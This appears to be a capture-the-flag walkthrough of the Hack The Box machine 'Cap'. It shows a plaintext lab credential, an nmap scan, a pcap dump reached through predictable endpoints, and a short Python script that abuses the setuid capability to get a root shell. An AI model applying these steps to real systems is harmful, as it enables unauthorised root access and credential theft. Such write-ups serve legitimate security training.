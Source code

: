 # Cap

## Cap

## Credentials

| User   | Password        | Note        |
| ------ | --------------- | ----------- |
| nathan | Buck3tH4TF0RM3! | http server |
|        |                 |             |
|        |                 |             |

## Enumeration

### Nmap scan

```bash
# Nmap 7.91 scan initiated Sun Jun 27 05:37:25 2021 as: nmap -p21,22,80 -sV -sC -oA nmap/detalied 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 27 Jun 2021 09:50:03 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 27 Jun 2021 09:49:58 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 27 Jun 2021 09:49:58 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port80-TCP:V=7.91%I=7%D=6/27%Time=60D846DD%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,105F,"HTTP/1\\.0\\x20200\\x20OK\\r\\nServer:\\x20gunicorn\\r\\nDate:\\x20
SF:Sun,\\x2027\\x20Jun\\x202021\\x2009:49:58\\x20GMT\\r\\nConnection:\\x20close\\r\\
SF:nContent-Type:\\x20text/html;\\x20charset=utf-8\\r\\nContent-Length:\\x20193
SF:86\\r\\n\\r\\n<!DOCTYPE\\x20html>\\n<html\\x20class=\\"no-js\\"\\x20lang=\\"en\\">\\
SF:n\\n<head>\\n\\x20\\x20\\x20\\x20<meta\\x20charset=\\"utf-8\\">\\n\\x20\\x20\\x20\\x2
SF:0<meta\\x20http-equiv=\\"x-ua-compatible\\"\\x20content=\\"ie=edge\\">\\n\\x20\\
SF:x20\\x20\\x20<title>Security\\x20Dashboard</title>\\n\\x20\\x20\\x20\\x20<meta\\
SF:x20name=\\"viewport\\"\\x20content=\\"width=device-width,\\x20initial-scale=
SF:1\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"shortcut\\x20icon\\"\\x20type=\\"image
SF:/png\\"\\x20href=\\"/static/images/icon/favicon\\.ico\\">\\n\\x20\\x20\\x20\\x20<
SF:link\\x20rel=\\"stylesheet\\"\\x20href=\\"/static/css/bootstrap\\.min\\.css\\">
SF:\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\"/static/css/fon
SF:t-awesome\\.min\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20
SF:href=\\"/static/css/themify-icons\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel=
SF:\\"stylesheet\\"\\x20href=\\"/static/css/metisMenu\\.css\\">\\n\\x20\\x20\\x20\\x2
SF:0<link\\x20rel=\\"stylesheet\\"\\x20href=\\"/static/css/owl\\.carousel\\.min\\.
SF:css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\"/static/c
SF:ss/slicknav\\.min\\.css\\">\\n\\x20\\x20\\x20\\x20<!--\\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\\.0\\x20200\\x20OK\\r\\nServer:\\x20gunicorn\\r\\nDate:\\x20Sun,\\x2
SF:027\\x20Jun\\x202021\\x2009:49:58\\x20GMT\\r\\nConnection:\\x20close\\r\\nConten
SF:t-Type:\\x20text/html;\\x20charset=utf-8\\r\\nAllow:\\x20HEAD,\\x20OPTIONS,\\x
SF:20GET\\r\\nContent-Length:\\x200\\r\\n\\r\\n")%r(RTSPRequest,121,"HTTP/1\\.1\\x2
SF:0400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\nContent-Type:\\x20text
SF:/html\\r\\nContent-Length:\\x20196\\r\\n\\r\\n<html>\\n\\x20\\x20<head>\\n\\x20\\x20
SF:\\x20\\x20<title>Bad\\x20Request</title>\\n\\x20\\x20</head>\\n\\x20\\x20<body>\\
SF:n\\x20\\x20\\x20\\x20<h1><p>Bad\\x20Request</p></h1>\\n\\x20\\x20\\x20\\x20Invali
SF:d\\x20HTTP\\x20Version\\x20&#x27;Invalid\\x20HTTP\\x20Version:\\x20&#x27;RTSP
SF:/1\\.0&#x27;&#x27;\\n\\x20\\x20</body>\\n</html>\\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\\.0\\x20404\\x20NOT\\x20FOUND\\r\\nServer:\\x20gunicorn\\r\\nDate:\\x20S
SF:un,\\x2027\\x20Jun\\x202021\\x2009:50:03\\x20GMT\\r\\nConnection:\\x20close\\r\\n
SF:Content-Type:\\x20text/html;\\x20charset=utf-8\\r\\nContent-Length:\\x20232\\
SF:r\\n\\r\\n<!DOCTYPE\\x20HTML\\x20PUBLIC\\x20\\"-//W3C//DTD\\x20HTML\\x203\\.2\\x20
SF:Final//EN\\">\\n<title>404\\x20Not\\x20Found</title>\\n<h1>Not\\x20Found</h1>
SF:\\n<p>The\\x20requested\\x20URL\\x20was\\x20not\\x20found\\x20on\\x20the\\x20ser
SF:ver\\.\\x20If\\x20you\\x20entered\\x20the\\x20URL\\x20manually\\x20please\\x20ch
SF:eck\\x20your\\x20spelling\\x20and\\x20try\\x20again\\.</p>\\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sun Jun 27 05:39:36 2021 -- 1 IP address (1 host up) scanned in 131.31 seconds

```

### data endpoint of http server

<figure><img src="../../.gitbook/assets/Pasted_image_20210627114456.png" alt=""><figcaption></figcaption></figure>

With predictable endpoints was possible to bruteforce the rest of data and dump credentials from user `nathan` from pcap file

<figure><img src="../../.gitbook/assets/Pasted_image_20210627115001.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

With password acquired from `pcap` file login as `nathan` via SSH was possible.

<figure><img src="../../.gitbook/assets/Pasted_image_20210627115210.png" alt=""><figcaption></figcaption></figure>

### Python with setuid capability

setuid capability allow to change effective uid of user to other one, so this allow to impersonate root uid and run program with root privileges.

<figure><img src="../../.gitbook/assets/Pasted_image_20210627120315.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Pasted_image_20210627120434 (1).png" alt=""><figcaption></figcaption></figure>

#### Exploit code

```python
root@cap:/dev/shm# cat soviet.py
import os

os.setuid(0)
os.system('bash -i')

```
